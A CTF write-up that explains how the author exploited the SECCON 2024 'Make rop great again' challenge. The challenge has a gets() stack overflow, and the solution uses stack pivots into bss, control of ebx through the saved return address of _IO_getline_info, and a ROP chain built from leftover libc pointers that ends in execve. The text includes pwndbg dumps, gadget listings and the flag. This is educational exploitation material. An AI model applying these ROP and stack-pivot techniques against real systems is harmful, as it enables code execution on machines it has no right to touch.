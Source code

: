 ```yaml
---
title: Make rop great again - SECCON CTF 2024
description: Easy Buffer overflow challenge but without pop rdi gadget.
author: Shunt
tags: ["pwn"]
pubDate: '2024-11-24'
---
```


This writeup was originally posted on my [github](https://github.com/terawhiz/CTF-Writeups/tree/main/2024/SECCON/pwn/make-rop-great-again).

No pie, NX bit set, no canary
```c
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
## Bug:
Stack buffer overflow in the main function using `gets()`.

## Exploit:
In this challenge we can't perform classic ret2libc attack here because there is no `pop rdi; ret` gadget in the binary. But we can control the first argument of gets call by jumping in the middle of main function.

```c
   0x00000000004011be <+17>:	lea    rax,[rbp-0x10]
   0x00000000004011c2 <+21>:	mov    rdi,rax
   0x00000000004011c5 <+24>:	mov    eax,0x0
   0x00000000004011ca <+29>:	call   0x401080        <------ gets
```
Stack pivot to bss (`0x404500`) and call gets in there, which will leave some libc function addresses in bss.
```cpp
22:0110│-410 0x404410 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
23:0118│-408 0x404418 —▸ 0x6fff552045c0 (_IO_2_1_stdout_) ◂— 0xfbad2887
24:0120│-400 0x404420 —▸ 0x404460 —▸ 0x404480 —▸ 0x4044e0 —▸ 0x404520 ◂— ...
25:0128│-3f8 0x404428 —▸ 0x6fff55092795 (__GI__IO_file_underflow+357) ◂— test rax, rax
26:0130│-3f0 0x404430 ◂— 0
27:0138│-3e8 0x404438 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
28:0140│-3e0 0x404440 —▸ 0x6fff55202030 (_IO_file_jumps) ◂— 0
29:0148│-3d8 0x404448 ◂— 0x7fffffe0
2a:0150│-3d0 0x404450 —▸ 0x6fff55203964 (_IO_2_1_stdin_+132) ◂— 0x5520572000000000
2b:0158│-3c8 0x404458 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
2c:0160│-3c0 0x404460 —▸ 0x404480 —▸ 0x4044e0 —▸ 0x404520 —▸ 0x404820 ◂— ...
2d:0168│-3b8 0x404468 —▸ 0x6fff550955c2 (_IO_default_uflow+50) ◂— cmp eax, -1
2e:0170│-3b0 0x404470 —▸ 0x404830 ◂— 0
2f:0178│-3a8 0x404478 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
30:0180│-3a0 0x404480 —▸ 0x4044e0 —▸ 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— ...
31:0188│-398 0x404488 —▸ 0x6fff55086f6a (_IO_getline_info+170) ◂— cmp eax, -1
32:0190│-390 0x404490 ◂— 0
33:0198│-388 0x404498 ◂— 0x552038e0
34:01a0│-380 0x4044a0 —▸ 0x404811 ◂— 0x6262626262626262 ('bbbbbbbb')
35:01a8│-378 0x4044a8 ◂— 0xa /* '\n' */
36:01b0│-370 0x4044b0 —▸ 0x6fff552f0740 ◂— 0x6fff552f0740
37:01b8│-368 0x4044b8 —▸ 0x404810 ◂— 0x6262626262626262 ('bbbbbbbb')
pwndbg> 
38:01c0│-360 0x4044c0 —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
39:01c8│-358 0x4044c8 —▸ 0x404020 (stdin@GLIBC_2.2.5) —▸ 0x6fff552038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
3a:01d0│-350 0x4044d0 ◂— 0
3b:01d8│-348 0x4044d8 —▸ 0x6fff5532d000 (_rtld_global) —▸ 0x6fff5532e2e0 ◂— 0
3c:01e0│-340 0x4044e0 —▸ 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— 0
3d:01e8│-338 0x4044e8 —▸ 0x6fff550871de (gets+366) ◂— mov rcx, qword ptr [r13]
3e:01f0│-330 0x4044f0 ◂— 0
3f:01f8│-328 0x4044f8 ◂— 0
pwndbg> 
40:0200│-320 0x404500 —▸ 0x7ffed16a86b8 —▸ 0x7ffed16a92a3 ◂— './chall_patched'
41:0208│-318 0x404508 ◂— 1
42:0210│-310 0x404510 ◂— 0
43:0218│-308 0x404518 —▸ 0x403dc8 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401140 (__do_global_dtors_aux) ◂— endbr64 
44:0220│-300 0x404520 —▸ 0x404820 —▸ 0x4047c0 ◂— 0
45:0228│-2f8 0x404528 —▸ 0x4011cf (main+34) ◂— mov eax, 0
```

Stack pivot again (`0x404800`) to preserve the libc address. We can now use the `add_addr32` gadget to build execve rop chain in bss.
```c
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
```

But we don't have control of the `ebx` register here? And there are no gadgets which lets us control `ebx`.
or is it?

There was a similar challenge in [Project sekai ctf 2022](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/pwn/gets/) where the author found a way to control `ebx` by overwriting saved `rip` of `_IO_getline_info` function which is called inside the `gets()` call.

```c
 ► 0x7eb0cc486f9e <_IO_getline_info+222>        pop    rbx     RBX => 0x22897     <----- Control ebx/rbx
   0x7eb0cc486f9f <_IO_getline_info+223>        pop    r12     R12 => 0
   0x7eb0cc486fa1 <_IO_getline_info+225>        pop    r13     R13 => 0
   0x7eb0cc486fa3 <_IO_getline_info+227>        pop    r14     R14 => 0
   0x7eb0cc486fa5 <_IO_getline_info+229>        pop    r15     R15 => 0
   0x7eb0cc486fa7 <_IO_getline_info+231>        pop    rbp     RBP => 0x404465
   0x7eb0cc486fa8 <_IO_getline_info+232>        ret                                <main+40>
```

How can we control overwrite saved `rip` of `_IO_getline_info`?
Set the first argument of `gets()` call to `rsp-0x70` (or something closer, 0x70 worked for me).

Now we collected all the pieces to exploit the program. Build a rop chain in bss using leftover food and stack pivot AGAIN to trigger the rop.

Final rop chain in bss:
```c
25:0128│-320 0x404428 —▸ 0x7eb0cc4b502c (strndup+76)               ◂— pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
26:0130│-318 0x404430 ◂— 0
27:0138│-310 0x404438 —▸ 0x7eb0cc6038e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
pwndbg> 
28:0140│-308 0x404440 —▸ 0x7eb0cc602030 (_IO_file_jumps) ◂— 0
29:0148│-300 0x404448 ◂— 0x7fffffe0
2a:0150│-2f8 0x404450 —▸ 0x7eb0cc603964 (_IO_2_1_stdin_+132) ◂— 0xcc60572000000000
2b:0158│-2f0 0x404458 —▸ 0x7eb0cc510a4d (eval_expr_multdiv+157)    ◂— pop rsi
2c:0160│-2e8 0x404460 ◂— 0
2d:0168│-2e0 0x404468 —▸ 0x7eb0cc50f75b (__spawnix+875)            ◂— pop rdi
2e:0170│-2d8 0x404470 —▸ 0x404830 ◂— 0
2f:0178│-2d0 0x404478 —▸ 0x7eb0cc4eef34 (execve+4)                 ◂— mov eax, 0x3b; syscall
```

PS: A friend said one gadget worked fine lol. It wasn't that bad to build rop either :P

And today I learned pwndbg has onegadget implementation where it shows gadgets based on current context and it SAT checks the gadget. Thats a big W, now you don't have to peek memory manually for every gadget. Thanks to the pwndbg team \<3

```c
pwndbg> onegadget
Using libc: ./libc.so.6

0x1111aa posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x48], 0, rsp+0x70, [rsp+0xf0])
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [[rsp+0xf0]] == NULL || [rsp+0xf0] == NULL || [rsp+0xf0] is a valid envp                    |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [rsp+0x48] == NULL || (s32)[[rsp+0x48]+0x4] <= 0                                            |
+----------+---------------------------------------------------------------------------------------------+

0x1111b2 posix_spawn(rsp+0x64, "/bin/sh", [rsp+0x48], 0, rsp+0x70, r9)
+----------+---------------------------------------------------------------------------------------------+
| Result   | Constraint                                                                                  |
+==========+=============================================================================================+
| SAT      | [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [r9] == NULL || r9 == NULL || r9 is a valid envp                                            |
+----------+---------------------------------------------------------------------------------------------+
| SAT      | [rsp+0x48] == NULL || (s32)[[rsp+0x48]+0x4] <= 0                                            |
+----------+---------------------------------------------------------------------------------------------+

Found 2 SAT gadgets.
Found 15 UNSAT gadgets.
Found 0 UNKNOWN gadgets.
```

Flag: `SECCON{53771n6_rd1_w17h_6375_m4k35_r0p_6r347_4641n}`